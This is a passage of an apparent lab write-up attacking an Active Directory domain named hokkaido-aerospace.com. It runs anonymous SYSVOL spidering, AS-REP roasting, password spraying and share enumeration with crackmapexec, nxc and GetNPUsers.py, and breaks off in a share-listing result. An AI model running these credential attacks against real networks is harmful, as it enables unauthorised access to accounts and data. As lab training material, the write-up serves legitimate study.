 ### Digging to SYSVOL Share

```bash
sudo crackmapexec smb $IP -u '' -p '' -M spider_plus --share 'SYSVOL'
```

![image.png](image%2013.png)

### AS-REP Roasting

```bash
GetNPUsers.py hokkaido-aerospace.com/ -dc-ip $IP -no-pass -usersfile users
```

![image.png](image%2014.png)

### Password Spraying

```bash
sudo nxc smb $IP -u users  -p users --continue-on-success
```

![image.png](image%2015.png)

## Privileges as info

**Shell access check:**

```bash
sudo nxc winrm $IP -u info -p info
```

![image.png](image%2016.png)

**Listing shares**

```bash
sudo nxc smb $IP -u info -p info --shares
```

![image.png](image%2017.png)

**Spidering shares**

```bash
sudo nxc smb $IP -u info -p info -M spider_plus -o EXCLUDE_DIR=IPC$
```

![image.png](image%2018.png)

```bash
{
    "NETLOGON": {
        "temp/password_reset.txt": {
            "atime_epoch": "2023-11-25 08:40:29",
            "ctime_epoch": "2023-11-25 08:40:11",
            "mtime_epoch": "2023-12-06 10:44:26",
            "size": "27 B"
        }
    },
    "SYSVOL": {
        "hokkaido-aerospace.com/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI": {
            "atime_epoch": "2023-12-06 10:42:04",
            "ctime_epoch": "2023-11-25 08:11:13",
            "mtime_epoch": "2023-12-06 10:42:04",
            "size": "23 B"
        },
```